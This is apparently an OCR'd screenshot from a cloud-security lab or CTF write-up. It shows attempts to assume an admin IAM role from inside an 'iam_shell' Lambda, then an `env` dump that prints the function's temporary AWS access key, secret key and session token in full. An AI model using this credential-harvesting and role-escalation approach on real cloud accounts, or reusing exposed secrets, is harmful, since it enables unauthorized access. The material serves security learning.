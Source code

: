 ```bash
 > aws sts assume-role --role-arn arn:aws:sts::657483584613:assumed-role/shell_basic_iam/iam_shell --role-session-name arn:aws:iam::133
713371337:user/admin

An error occurred (ValidationError) when calling the AssumeRole operation: 1 validation error detected: Value 'arn:aws:iam::1337133713
37:user/admin' at 'roleSessionName' failed to satisfy constraint: Member must satisfy regular expression pattern: [\w+=,.@-]*

$ aws sts assume-role --role-arn arn:aws:sts::657483584613:assumed-role/shell_basic_iam/iam_shell --role-session-name user/admin

An error occurred (ValidationError) when calling the AssumeRole operation: 1 validation error detected: Value 'user/admin' at 'roleSes
sionName' failed to satisfy constraint: Member must satisfy regular expression pattern: [\w+=,.@-]*

$ aws sts assume-role --role-arn arn:aws:sts::657483584613:assumed-role/shell_basic_iam/iam_shell --role-session-name "admin"

An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:sts::657483584613:assumed-role/shell_basic_iam/i
am_shell is not authorized to perform: sts:AssumeRole on resource: arn:aws:sts::657483584613:assumed-role/shell_basic_iam/iam_shell
```

Hmmm, so without reverting to our IAM user we can't assume the role.

```bash
$ env | grep -i aws_

AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEMH//////////wEaCXVzLWVhc3QtMSJIMEYCIQDakbmbNYQOhE41g9u4my2WRo6tcfKP7q0aMj4TUIt/PwIhAMFGal67HXsNNqBg
bKXJGkz1mp6tPkX+UELkg9/3VuBIKuYCCCkQABoMNjU3NDgzNTg0NjEzIgzx7K3QOVU7j0wZECAqwwIoLO5OwDSUPbhddQI3GGGQ9nFSCRiXBtlxO9Dc8RanjL+jNvJFSxOrCR
lxe8aji9cCm4cHH+PeoFNIHORtbSqPpWKmiUtek+z5PnueWOJdxxHfSmv1XLDEXWlihek/QuuRW6HIyz5IRfaMMwldGTBdIgt70DRUaoEctNRFlAtvUjRyD5Oion8AMMzoQhbq
kSb798l8OSIUSeRx7hCMW61RLxMDSWulXKULQxwof+iqrsF8JTIywu96Lu425wDvEM5ifyb2USjb5gdk/nDXkBXHxleMZkJgsjWyS8+kwbMPZ6AochFBVvOebFdPrvrIEZkC98
qf6Wc/x3UVXQMu1co78TS7ST8Xt/6JZbFdbNngL65kiO1w5k2A1NJizJwV4WNjhD0Yw4mNKMgsG156+0SFfM3VrGQSMwDwtl6iCBJ7X980ADCF8t+kBjqdAUDT6Rw4exYbfvVe
U2wAXOGAMpuUqifa4hytsIgcsdAp64PytVB024K64pYBFqTidVCgeD2VHH6kqFnVBHFVSs6h0kL8TIE9/6mzRwRrIHkD00TL+HzDk2JDBlfVSapB8ifaXhw4Sur+lXZSOkyiW4
XYljFWg7eS0MBkgJa7e8le1wYtodtUJBHX2t1gJSUPgc+GP0buDw1MyWQqFQk=
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/iam_shell
AWS_LAMBDA_RUNTIME_API=127.0.0.1:9001
AWS_LAMBDA_LOG_STREAM_NAME=2023/06/25/[$LATEST]c61947d8059943388213995ee7d5fbc9
AWS_EXECUTION_ENV=AWS_Lambda_python3.7
AWS_LAMBDA_FUNCTION_NAME=iam_shell
AWS_XRAY_DAEMON_ADDRESS=169.254.79.129:2000
AWS_DEFAULT_REGION=us-east-1
AWS_SECRET_ACCESS_KEY=1fTrfGScJq7t0Jeul3M/xSqJpN/hX+vVjiJ+/ySD
AWS_LAMBDA_INITIALIZATION_TYPE=on-demand
AWS_REGION=us-east-1
AWS_ACCESS_KEY_ID=ASIAZSFITKRSZV7DMCAA
_AWS_XRAY_DAEMON_ADDRESS=169.254.79.129
_AWS_XRAY_DAEMON_PORT=2000
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=4096
```
